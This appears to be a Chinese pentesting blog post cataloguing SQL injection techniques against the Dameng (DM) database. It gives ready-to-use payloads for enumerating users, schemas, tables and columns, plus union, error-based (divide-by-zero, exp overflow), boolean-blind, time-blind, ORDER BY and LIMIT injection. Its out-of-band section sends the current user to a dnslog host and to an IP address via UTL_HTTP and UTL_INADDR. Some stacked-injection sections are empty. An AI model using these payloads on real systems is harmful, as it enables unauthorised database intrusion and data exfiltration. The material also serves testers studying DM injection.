




# 达梦数据库DMSQL-SQL注入小记


&gt; DMSQL注入小记，转手存为笔记，辅助日常工作。麻烦大家也点点原文链接，欢迎大家点赞评论。
&gt;
&gt; 原文首发在：先知社区 https://xz.aliyun.com/t/16721

# 达梦数据库DMSQL-SQL注入小记

目前国产化越来越普及，平时遇到的达梦数据库也越来越多，因此决定进行下总结。由于本人能力有限，如果文章中有纰漏欢迎指正，也欢迎大家进行交流。

官方存在达梦线上实验室，可以在线试用达梦数据库，免注册，省去了自己下载安装的时间。
https://eco.dameng.com/tour/

## 0x01 判断DMSQL

常见的判断方法如下：

报错语句：
- `dm.jabc.driver.DMException`
- 无 updatexml 等方法，

## 0x02 基础语法

```sql
select user			-- 返回当前用户，默认是SYSDBA
select user()		-- 同上
select cur_database		-- 返回当前库名，默认是DAMENG
select cur_database() 	-- 同上
select  1 						-- select语句后面可以不跟表名，存在默认表dual，可以接from dual
select 1 from dual where 1=1 &amp;&amp; 1=1		-- &amp;&amp;可以代替and，但||不能代替or
```

### 2.1 注释

```sql
SELECT 1; -- 单行注释
select 1/*aaa*/from dual  	-- 支持/**/多行注释
```

不支持 `#` 单行注释 和`/*! */`内联注释

### 2.2 常用运算符

[DMSQL程序数据库类型与操作符](https://eco.dameng.com/document/dm/zh-cn/pm/dm8_sql-data-types-operators.html#2.9%20%E6%93%8D%E4%BD%9C%E7%AC%A6)

常用运算符差异不大，&amp;&amp; 同 AND，但 || 无法代替 OR。

## 0x03 函数特性

```sql
md5(1)							-- 返回 0xC4CA4238A0B923820DCC509A6F75849B，返回对应MD5值，前面加了0x
exp(if(1=1,710,1))
exp(710)				-- 返回整数溢出错误，使用这种方式可以强制BOOL盲注
```

### 3.1 进制转换

```sql
ASCII(str)			返回字符串第一个字符的ASCII值, ASCII(&#39;a&#39;) = 97
char(num)				返回参数num对应的ASCII字符，
chr(num)				同上，CHR(97) = a
HEX(str)				返回16进制字符串形式, hex(12) = 3132
UNHEX(str)			返回对应的字符串，unhex(3132) = 12
```

### 3.2 字符串截取

```sql
substring(&#39;1234&#39;,2,1)			-- 同substr函数
substr(&#39;1234&#39;,2,1)				-- 返回2，第二个参数从第几位开始取值，第三个参数代表截图多少位
-- 多种格式 SUBSTR(str,pos)、SUBSTR(str FROM pos)、SUBSTR(str,pos,len)、SUBSTR(str FROM pos FOR len), 如 substr(&#39;1234&#39; from 2 for 1) = 2

left(&#39;123456&#39;, 3)					-- 返回123，第二个参数代表返回左边几位的字符
right(&#39;123456&#39;, 3)				-- 返回456，第二个参数代表返回右边几位的字符
```

### 3.3 字符串拼接

```sql
||																-- 将左右两侧字符串进行连接
CONCAT(str1,str2...)									-- 将多个字符串合并为一个字符串
CONCAT_WS(separator,str1,str2...)				-- 通过分隔符separator将字符串连接在一起
WM_CONCAT(column_name)							-- 类似 GROUP_CONCAT(...)，将某一列中的多个字符串按照一定顺序拼接成一个大的字符串，通常用于分组后的字符串拼接
LISTAGG(column_name, separator)					-- 和 WM_CONCAT 类似，也是用于将分组后的列值进行拼接，并且提供了更多的控制选项，如指定分隔符等。
```

### 3.4 其他

```sql
LENGTH(str)		-- 返回字符串的长度
len(str)			-- 返回字符串的长度
LOWER(str)		-- 将字符串字母全部转成小写。同：LCASE(str)。
UPPER(str)		-- 将字符串字母全部转成大写。同：UCASE(str)。
TO_CHAR(date/time_value, &#39;format&#39;)   	-- 将日期、时间、数字等类型的数据转换为字符类型
TO_NUMBER(char_value, &#39;format&#39;)			 -- 将字符类型的数据转换为数字类型
TO_DATE(char_value, &#39;format&#39;)				 -- 将字符类型的数据转换为日期类型。
```

## 0x04 SQLi 获取数据

注入方式整体上和Oracle差不多，但是还是有一些区别。

注入语句：

### 4.1 基本信息

```sql
-- 查看数据库版本
SELECT banner FROM v$version;			-- 注意：返回是多行
SELECT banner FROM v$version limit 0,1;
SELECT WM_CONCAT(banner) FROM v$version  	-- 在一行中显示
SELECT LISTAGG(banner, &#39;， &#39;) FROM v$version;  	-- 在一行中显示，高版本可用
-- 获取当前用户、当前数据库
select user
select user()
SELECT user FROM DUAL;
select cur_database
-- 获取所有用户名
select USERNAME from SYS.ALL_USERS
select WM_CONCAT(USERNAME) from SYS.ALL_USERS
```

### 4.2 查询全局变量

需要当前用户具备查询权限

```sql
SELECT NAME, TYPE, VALUE FROM V$PARAMETER;
```

- `NAME`列显示系统参数的名称，如`BUFFER_POOL_SIZE`（缓冲池大小）等，这些参数名称用于标识不同的数据库配置项。    
- `TYPE`列表示参数的类型，例如`INT`（整数类型）、`STRING`（字符串类型）等，这有助于了解参数值的数据格式。     
- `VALUE`列则是对应的参数实际的值，例如对于`BUFFER_POOL_SIZE`参数，`VALUE`列可能显示一个表示大小的数字（单位可能根据参数定义而不同）。 

常见有用的全局变量如下：
```
NAME									VALUE
SYSTEM_PATH				/home/dmdba/data/DAMENG
CONFIG_PATH				/home/dmdba/data/DAMENG
TEMP_PATH					/home/dmdba/data/DAMENG
BAK_PATH					/home/dmdba/data/DAMENG/bak
DFS_PATH					$/DAMENG
INSTANCE_NAME			DMSERVER
INSTANCE_ADDR
PORT_NUM					5236
SVR_LOG_NAME			SLOG_ALL
TRACE_PATH				/home/dmdba/data/DAMENG/trace
BCT_PATH					/home/dmdba/data/DAMENG
```

如果只想查询特定的全局变量，可以在查询语句中添加筛选条件。
查询语句：

```sql
SELECT VALUE FROM V$PARAMETER WHERE NAME = &#39;SYSTEM_PATH&#39;;
SELECT NAME, VALUE FROM V$PARAMETER WHERE name LIKE &#39;%INSTANCE%&#39;
```

### 4.3 查询系统表

#### 1） 查询库名

`SYS.SYSOBJECTS`表中保存全部的库名信息。
查询所有的库名和对应ID

```sql
select NAME,ID from SYS.SYSOBJECTS where TYPE$=&#39;SCH&#39;
```

#### 2） 查询表名

`SYS.SYSOBJECTS` 表中同时保存全部的表名信息。
查询所有的表名。其中SCHID来自步骤1）中获得的ID

```sql
select NAME,ID from SYS.SYSOBJECTS where TYPE$=&#39;SCHOBJ&#39; and SUBTYPE$=&#39;UTAB&#39; and SCHID=150995949
```

#### 3） 查询列名

`SYS.SYSCOLUMNS` 表中字段名称和字段类型。
查询所有表对应的列名。其中ID为步骤2）中获取的ID

```sql
select NAME,TYPE$,DEFVAL from SYS.SYSCOLUMNS where ID=1078
```

### 4.4 查询视图

#### 1） 查询用户

查询全部数据库的用户名
```sql
select USERNAME from SYS.ALL_USERS
```

#### 2） 查询库名

查询全部库名，其中 OWNER 是步骤1）对应的数据库用户名。

```sql
select OBJECT_NAME from SYS.ALL_OBJECTS where OWNER=&#39;SYSDBA&#39; and OBJECT_TYPE=&#39;SCH&#39;
```

#### 3） 查询表名

查询全部表名， OWNER 是步骤2）对应的库名。

```sql
select OBJECT_NAME from SYS.ALL_OBJECTS where OWNER=&#39;OTHER&#39; and OBJECT_TYPE=&#39;TABLE&#39;
```

#### 4） 查询列名

可以使用下面的方式返回指定条件对应的列名，其中SCHEMA_NAME代表库名，TABLE_NAME代表表名。

```sql
select OWNER,TABLE_NAME,SCHEMA_NAME,COLUMN_NAME from SYS.ALL_COL_COMMENTS where SCHEMA_NAME=&#39;OTHER&#39; and TABLE_NAME=&#39;xxxxxx&#39;
```

## 0x05 联合查询注入

Union 注入与常规的没什么区别

```sql
 order by num
 union select 1,2,3...			-- 注意列数和类型要相同
```

## 0x06 报错注入

常规的报错函数都不太行，无法直接获取结果。主要利用的是 除0错误、溢出错误，结合布尔注入进行。

### 6.1 除0错误

```sql
select 1 from dual where 1=1/0
```

结合布尔注入进行探测

```sql
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=1/if(len(user)=6,1,0) ORDER BY id DESC;
```

### 6.2 溢出错误

```sql
select exp(710)
select exp(if(1=1,710,1))			-- 数据溢出
select exp(if(len(user)=6,710,1))

SELECT *  FROM t1 where rownum&lt;5 AND 1=exp(if(len(user)=6,710,0)) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 ORDER BY id,exp(if(len(user)=6,711,0)) DESC;
SELECT *  FROM t1 where rownum&lt;5 ORDER BY id DESC, exp(if(len(user)=6,710,0));
```

## 0x07 布尔盲注

布尔盲注语法

```sql
if(expr，参数1，参数2) -- expr成立时，返回参数1的值;不成立时，返回参数2的值
CASE WHEN exp THEN state1 ELSE state2 END		-- 同IF
DECODE(expr, search1, result1 [, search2, result2,...][, default_result])  -- 类似 switch case, 如果 expr=search1，则返回 result1，否则返回default_result
IFNULL(expr1,expr2)					-- 如果 expr1 不为 NULL，则返回 expr1，否则返回 expr2
NULLIF(expr1,expr2)					-- 若expr1与expr2不同，则返回expr1，否则返回NULL

if(1=ascii(substr(&#39;123456&#39;,2,1)),2, 1)		-- 综合使用，盲注必备
CASE WHEN len(user)=6 THEN 1 ELSE 0 END
DECODE(len(user),6,1,0)							-- 判断len(user)=6是否成立，成立返回1，否则返回0
```

案例：

```sql
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=if(len(user)=6,1,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=(case when len(user)=4 then 1 else 0 end) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=decode(len(user),6 ,1,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=IFNULL(len(user)=6,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=NULLIF(len(user)=6,0) ORDER BY id DESC;
```

## 0x08 时间盲注

```sql
sleep(n)				-- 休眠n秒，不能和select 一起用，语法错误，失去价值
exec  sleep 5		-- 延时5s
dbms_pipe.receive_message((&#39;a&#39;),2)				-- 可以延时

SELECT UTL_INADDR.get_host_name(&#39;10.0.0.1&#39;) FROM dual; 		-- 如果反查很慢，可能可以
SELECT UTL_INADDR.get_host_address(&#39;blah.attacker.com&#39;) FROM dual; 		-- 如果正查很慢
SELECT UTL_HTTP.REQUEST(&#39;http://google.com&#39;) FROM dual; 		-- 如果发送TCP包被拦截或者很慢
```
实际过程中时间盲注很难起到作用。测试发现，结合布尔判断时，无论True/False，都会造成延时。

## 0x09 DNS外带注入

需要用户可访问网络的权限

如果数据长度太长，如数据库版本，可能会导致出错，这时候要使用带外，就可以使用substr()函数来截取字符串，每次取几个特定的字符即可

**发送DNS请求，DNS外带**：

```sql
SELECT UTL_INADDR.get_host_address(&#39;google.com&#39;) FROM dual;   -- priv
SELECT UTL_INADDR.get_host_address((select user)||&#39;.xxx.dnslog&#39;);

SELECT UTL_HTTP.REQUEST(&#39;http://google.com&#39;) FROM dual;
SELECT UTL_HTTP.REQUEST(&#39;http://xxx.dnslog?&#39;||(select user)) from dual;
select utl_http.request(&#39;http://192.168.0.100:8888/?&#39;||(select user)) from dual;
```

## 0x0A 堆叠注入

在靶场中没成功，提示`表不存在`，但是在实战中成功过。

### 10.1 结合DNS外带

结合DNS外带注入，成功获取到数据。





### 10.2 结合除0报错





## 0x0B order by 位置注入

### 11.1 位运算符

主要使用^亦或运算，其他也可

```sql
ORDER BY id^(if(1=2,1,2)
ORDER BY id^(if(len(user)=6,1,2))
```

```sql
SELECT * FROM t1 where rownum&lt;5 ORDER BY id^(if(1=2,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id^(if(len(user)=6,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id&amp;(if(len(user)=6,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id|(if(len(user)=6,1,2)) DESC;
```

### 11.2 union

利用条件比较苛刻，需要整条语句在括号中，且前后字段数量一致

```
(SELECT * FROM t1 where rownum&lt;5 ORDER BY id) union (select 1,2,user);
(SELECT * FROM t1 where rownum&lt;5 ORDER BY id,null) union (select 1,2,user);
```

### 11.3 转化成Where

将其转化为 where 后的注入点

```sql
SELECT * FROM xxxx WHERE is_delete != &#39;1&#39; ORDER BY id limit 0,20
 
SELECT * FROM xxxx WHERE is_delete != &#39;1&#39; ORDER BY (select 1 from dual where 1=1/(case when len(user)=6 then 1 else 0 end)) LIMIT 0,20
```

## 0x0C limit 注入

可以接 堆叠注入


## END 参考文章

- 达梦数据库手工注入笔记：https://mp.weixin.qq.com/s/vWt3aHhji7e64EMGEBXigg
- 达梦技术文档：https://eco.dameng.com/document/dm/zh-cn/pm/logical-structure.html


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/%E8%BE%BE%E6%A2%A6%E6%95%B0%E6%8D%AE%E5%BA%93dmsql-sql%E6%B3%A8%E5%85%A5%E5%B0%8F%E8%AE%B0/  

